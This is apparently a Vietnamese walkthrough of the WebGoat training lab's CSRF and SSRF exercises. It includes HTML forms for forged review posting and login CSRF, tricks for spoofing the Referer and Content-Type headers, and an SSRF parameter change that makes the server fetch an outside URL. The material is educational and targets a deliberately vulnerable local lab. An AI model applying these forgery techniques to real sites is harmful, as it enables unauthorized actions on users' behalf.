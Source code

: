 # (A10) Server-side Request Forgery

## Cross-Site Request Forgeries

### 3. Basic Get CSRF Exercise

Thay vì dựng một web server để chuyển hướng thì mình bắt request và chỉnh lại phần `Referer` trong header.

![16](images/16.png)

Nhập số ở phần `flag` vào là xong.

### 4. Post a review on someone else’s behalf

Copy phần code ủa button `Sumbmit review` sửa lại attribute `action` và lưu lại sau đó mở bằng browser nhập input và bấm submit hehe. Lưu ý phần `reviewsStars` phải là số nếu không sẽ bị lỗi.

```html
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/review">
    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
    <input class="form-control" id="reviewStars" name="stars" type="text">
    <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
    <input type="submit" name="submit" value="Submit review">
</form>
```

Câu này cũng có thể solve bằng cách sửa `Referer` như câu 3.

### 7. CSRF and content-type

Đổi `Referer` và chỉnh phần `Content-Type` thành `text/plain`.

![17](images/17.png)


### 8. Login CSRF attack

Tạo một tài khoản mới với prefix `csrf-` và tạo một trang HTML như sau:

```html
<form action="http://localhost:8080/WebGoat/login" method="POST" style="width: 200px;">
    <input type="hidden" name="username" value="csrf-woanmeo11">
    <input type="hidden" name="password" value="123456">
    <button type="submit">Sign in</button>
</form>
<script>document.login.submit()</script>
```

Bấm vào nút submit khi dó mình sẽ login dưới tài khoản `csrf-woanmeo11`, sau đó tìm nút solve tại lession bấm vào là xong.


## Server-Side Request Forgery

### 2. Find and modify the request to display Jerry

Bắt request bằng burpsuite và đổi từ `tom` thành `jerry`.

![18](images/18.png)

### 3. Change the request so the server gets information from http://ifconfig.pro

Thay param `url=http://ifconfig.pro`.

![19](images/19.png)